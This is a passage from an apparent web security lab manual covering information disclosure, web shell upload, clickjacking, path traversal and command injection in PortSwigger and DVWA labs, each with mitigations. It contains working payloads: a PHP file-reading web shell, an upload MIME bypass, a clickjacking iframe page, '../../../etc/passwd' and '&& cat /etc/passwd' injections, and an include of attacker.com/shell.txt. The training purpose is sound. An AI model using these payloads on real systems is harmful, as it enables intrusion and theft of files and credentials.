- Proved that signature-based WAF filtering can often be circumvented via encoding and keyword fragmentation, emphasizing that core security logic must reside within the application code.

## 6. Practical 6: Information Leakage & Sensitive Data Exposure

### 6.1 Aim
- Identify and exploit vulnerabilities that unintentionally reveal sensitive configuration data, internal architecture, or technical credentials.

### 6.2 Theory & Core Concepts
- **Information Leakage**: The unintentional exposure of sensitive operational or technical data to unauthorized parties.
- **Common Vectors**:
  - Verbose error messages displaying full stack traces, database versions, and server paths.
  - Publicly accessible configuration files (`.env`, `.git`, `web.config`, `phpinfo.php`).
  - Unsanitized HTML comments containing developer notes and internal URLs.
  - Server banner headers disclosing exact OS and daemon software versions.

### 6.3 Step-by-Step Implementation (PortSwigger Lab)

1. **Lab Target**: *Information disclosure in error messages*.
2. **Reconnaissance**:
   - Launch Burp Suite and browse the lab target store.
   - Select any product to view its details, capturing the request:
     ```http
     GET /product?productId=1 HTTP/1.1
     Host: target-lab.web-security-academy.net
     ```
3. **Triggering Unhandled Exceptions**:
   - Send the request to **Burp Repeater**.
   - Tamper with the parameter value by entering an unexpected non-numeric string:
     ```http
     GET /product?productId=hacker HTTP/1.1
     ```
   - Transmit the request and examine the **HTTP 500 Internal Server Error** response.
4. **Analyzing Exposed Stack Trace**:
   - The response exposes a full debug stack trace disclosing internal framework libraries, runtime versions (e.g., Apache Struts / Spring Boot version), and absolute filesystem directory paths.
   - Extract the required secret framework token from the stack trace and submit it to solve the lab.

### 6.4 Prevention
- **Custom Error Pages**: Return generic error pages (e.g., standard 404/500 templates) without technical details.
- **Disable Debug Mode in Production**: Ensure `display_errors = Off` in `php.ini` or disable debug flags in application frameworks.
- **Header Sanitization**: Suppress `Server` and `X-Powered-By` headers.

### 6.5 Conclusion
- Verified that unhandled exceptions provide attackers with valuable intelligence regarding internal software components, underscoring the necessity of centralized exception handling.

## 7. Practical 7: File Inclusion & Web Shell Upload Attacks

### 7.1 Aim
- Demonstrate how file inclusion and unrestricted file upload vulnerabilities allow attackers to execute arbitrary server-side code (Remote Code Execution).

### 7.2 Theory & Core Concepts
- **Local File Inclusion (LFI)**: Allows reading or including files locally present on the server via path manipulation (e.g., `include($_GET['page'])`).
- **Remote File Inclusion (RFI)**: Allows including and executing remote files hosted on attacker-controlled servers (e.g., `include("http://attacker.com/shell.txt")`).
- **Unrestricted File Upload**: Failure to validate file extensions, MIME types, or contents when uploading user assets (e.g., avatars), permitting executable scripts (`.php`, `.jsp`) to be uploaded directly into the web root.



### 7.3 Step-by-Step Implementation (PortSwigger Lab)

1. **Lab Target**: *Remote code execution via web shell upload*.
2. **Uploading Base Profile Asset**:
   - Log into the application using credentials (`wiener` / `peter`).
   - Locate the avatar upload function.
   - Upload an authentic image (`.png`) and verify through Burp HTTP History that the file is stored under `/files/avatars/`.
3. **Crafting the PHP Web Shell**:
   - Create a file named `exploit.php` containing server-side execution code:
     ```php showLineNumbers
     <?php
     echo file_get_contents('/home/carlos/secret');
     ?>
     ```
4. **Bypassing Upload Restrictions**:
   - Upload `exploit.php` through the avatar form.
   - If MIME type filtering is enabled, intercept the multipart upload request in Burp Suite and ensure the `Content-Type` header matches an allowed type:
     ```http
     Content-Disposition: form-data; name="avatar"; filename="exploit.php"
     Content-Type: image/jpeg
     ```
5. **Executing the Shell & Retrieving Data**:
   - In Burp Repeater, issue a GET request directly to the uploaded file:
     ```http
     GET /files/avatars/exploit.php HTTP/1.1
     Host: target-lab.web-security-academy.net
     ```
   - The web server executes the PHP file and returns the secret key in the response body.
   - Submit the extracted secret key to solve the lab.

### 7.4 Mitigation Strategies
- **Extension Allowlisting**: Restrict accepted file extensions strictly to safe non-executable formats (e.g., `.jpg`, `.png`).
- **MIME & Magic Byte Verification**: Validate actual file headers (magic bytes) rather than relying solely on user-supplied filenames.
- **Separate Storage Domain / Outside Web Root**: Store uploaded files outside the public document root or serve them from an isolated S3 bucket/CDN.
- **Disable Script Execution**: Configure web server rules to deny script execution in upload folders:
  ```apache
  <Directory "/var/www/uploads">
      php_flag engine off
  </Directory>
  ```

### 7.5 Conclusion
- Demonstrated how arbitrary file upload vulnerabilities directly lead to full Remote Code Execution (RCE). Defensive controls must strictly decouple user-uploaded content from server-side script execution engines.

## 8. Practical 8: Clickjacking (UI Redressing) Attacks

### 8.1 Aim
- Construct a Clickjacking exploit using CSS opacity tricks and iframe layering to trick an authenticated user into clicking an unintended, high-privilege button.

### 8.2 Theory & Core Concepts
- **Clickjacking (UI Redressing)**: An interface-based attack in which a transparent `<iframe>` containing a target application is overlaid directly on top of a decoy webpage.
- **Mechanism**:
  - The victim is lured to the attacker's decoy site (e.g., "Click here to win a prize").
  - The attacker embeds the target website inside an invisible iframe (`opacity: 0.0001`) layered above the decoy using CSS `z-index`.
  - When the user clicks the apparent decoy button, they unwittingly click an actionable button (e.g., "Delete Account", "Authorize Payment") on the embedded target application.
- **Clickjacking vs. CSRF**:
  - CSRF executes without user interaction by forging a background request.
  - Clickjacking relies on deceptive UI manipulation to induce the user into physically clicking the coordinate where the action button resides.



### 8.3 Step-by-Step Implementation (PortSwigger Lab)

1. **Lab Target**: *Basic clickjacking with CSRF token protection*.
2. **Accessing the Target**:
   - Access the lab and log in with account credentials (`wiener` / `peter`).
   - Notice the sensitive state-changing action: **Delete account** button located on the `/my-account` page.
3. **Crafting the Exploit Template**:
   - Navigate to the **Exploit Server** and draft the HTML exploit page:
     ```html showLineNumbers
     <head>
       <style>
         #target_website {
           position: relative;
           width: 500px;
           height: 700px;
           opacity: 0.0001;
           z-index: 2;
         }
         #decoy_button {
           position: absolute;
           top: 585px;
           left: 55px;
           z-index: 1;
         }
       </style>
     </head>
     <body>
       <div id="decoy_button">Click here to claim reward</div>
       <iframe id="target_website" src="https://target-lab.web-security-academy.net/my-account"></iframe>
     </body>
     ```
4. **Aligning & Delivering Exploit**:
   - Adjust `top` and `left` pixel coordinates so the decoy button precisely aligns beneath the invisible "Delete account" button in the iframe.
   - Click **Store**, then **Deliver exploit to victim**.
   - The simulated victim visits the decoy page, clicks the decoy button, and unwittingly triggers account deletion.

### 8.4 Mitigation Strategies
- **Content Security Policy (CSP) `frame-ancestors`**:
  ```http
  Content-Security-Policy: frame-ancestors 'none';
  ```
  This directive tells compliant browsers never to embed the page inside an `<iframe>`.
- **`X-Frame-Options` Header**:
  ```http
  X-Frame-Options: DENY
  ```
  Or `X-Frame-Options: SAMEORIGIN` to restrict framing to identical origin sites.

### 8.5 Conclusion
- Proved that absent frame-busting defenses, applications remain susceptible to UI redressing regardless of backend anti-CSRF token validation. Framing constraints must be enforced via CSP headers.

## 9. Practical 9: Security Configuration Issues (Path Traversal)

### 9.1 Aim
- Identify and exploit security misconfigurations and path traversal vulnerabilities to access arbitrary restricted files on the web server.

### 9.2 Theory & Core Concepts
- **Security Misconfigurations**: Insecure default settings, open directories, unnecessary HTTP methods, or unvalidated file access logic.
- **Directory / Path Traversal (Dot-Dot-Slash)**: An attacker uses the `../` directory traversal sequence to step out of the designated document root and access arbitrary files stored elsewhere on the filesystem (e.g., `/etc/passwd`, application configurations, server private keys).



### 9.3 Step-by-Step Implementation (PortSwigger Lab)

1. **Target**: *File path traversal, simple case*.
2. **Intercepting Asset Request**:
   - Open Burp Suite and navigate to the lab homepage.
   - Filter HTTP History to display image requests.
   - Identify an image retrieval request:
     ```http
     GET /image?filename=23.jpg HTTP/1.1
     Host: target-lab.web-security-academy.net
     ```
3. **Manipulating Path Coordinates**:
   - Send the request to **Burp Repeater**.
   - Replace `23.jpg` with the traversal payload:
     ```http
     GET /image?filename=../../../etc/passwd HTTP/1.1
     ```
4. **Exfiltrating System Files**:
   - Transmit the modified request.
   - The response returns **HTTP 200 OK** containing the raw contents of the Unix `/etc/passwd` file, exposing system user accounts and shell paths.

### 9.4 Mitigation Strategies
- **Prevent User Input in File Paths**: Avoid passing raw user input directly to filesystem APIs.
- **Normalize and Validate Canonical Paths**: Canonicalize the path and verify it begins strictly within an allowed base directory:
  ```java showLineNumbers
  File file = new File(BASE_DIRECTORY, userInput);
  if (!file.getCanonicalPath().startsWith(BASE_DIRECTORY)) {
      throw new SecurityException("Directory traversal attempt detected!");
  }
  ```
- **Filesystem Permissions (Chroot Jails)**: Confine the web server process inside an isolated container or chroot environment with minimal file read privileges.

### 9.5 Conclusion
- Demonstrated arbitrary file disclosure through unvalidated path parameters. Secure implementations must resolve canonical paths and enforce strict allowlists.

## 10. Practical 10: Input Validation, Sanitization & Command Injection

### 10.1 Aim
- Test input validation and sanitization mechanisms to demonstrate and defend against OS Command Injection vulnerabilities.

### 10.2 Theory & Core Concepts
- **Validation vs. Sanitization**:
  - **Validation**: Enforcing strict rules on input format, type, length, and allowed character sets (e.g., ensuring an input contains only digits).
  - **Sanitization**: Cleaning and neutralizing untrusted inputs before processing (e.g., escaping shell metacharacters or HTML entities).
- **OS Command Injection**: Occurs when untrusted data is passed directly into a system shell execution function (`system()`, `exec()`, `Runtime.getRuntime().exec()`) without validation.
- **Command Chaining Operators**:
  - `;` : Execute sequentially regardless of outcome.
  - `&` : Execute preceding command in the background and run following command.
  - `&&` : Logical AND (execute next command only if prior command succeeds).
  - `|` : Pipe output of first command into input of second.
  - `||` : Logical OR (execute next command only if prior command fails).



### 10.3 Step-by-Step Implementation (DVWA)

1. **Environment Setup**:
   - Access DVWA at `http://127.0.0.1/dvwa/`.
   - Set **DVWA Security** to **Low**.
   - Navigate to the **Command Injection** tab.
2. **Executing Basic Command Injection**:
   - Enter a loopback address followed by an inline command separator:
     ```text
     127.0.0.1; dir
     ```
   - On Windows, this runs the ping command followed immediately by directory listing (`dir`).
3. **Testing Alternative Separator Variations**:
   - Test background execution:
     ```text
     127.0.0.1 & ipconfig
     ```
   - Test piped execution:
     ```text
     127.0.0.1 | systeminfo
     ```
   - Test Unix equivalents (on Linux environments):
     ```text
     127.0.0.1; ls -la
     127.0.0.1 && cat /etc/passwd
     ```
   - All variations succeed on Low security due to the lack of input sanitization in the underlying PHP script:
     ```php
     $target = $_REQUEST['ip'];
     $cmd = shell_exec('ping -c 4 ' . $target);
     ```

### 10.4 Mitigation Strategies
- **Avoid Direct Shell Invocations**: Use native API language libraries instead of shelling out to OS utilities.
- **Strict Parameter Separation**: Pass arguments as an array rather than a concatenated command string:
  ```java
  ProcessBuilder pb = new ProcessBuilder("ping", "-c", "4", sanitizedIp);
  ```
- **Strict Whitelist Validation**: Validate inputs against rigid regex patterns (e.g., verifying an IP conforms strictly to `^\d{1,3}(\.\d{1,3}){3}$`).

### 10.5 Conclusion
- Proved that passing unvalidated user input to system shell execution utilities results in immediate operating system compromise. Parameterization and strict whitelist validation are mandatory to neutralize command injection risks.
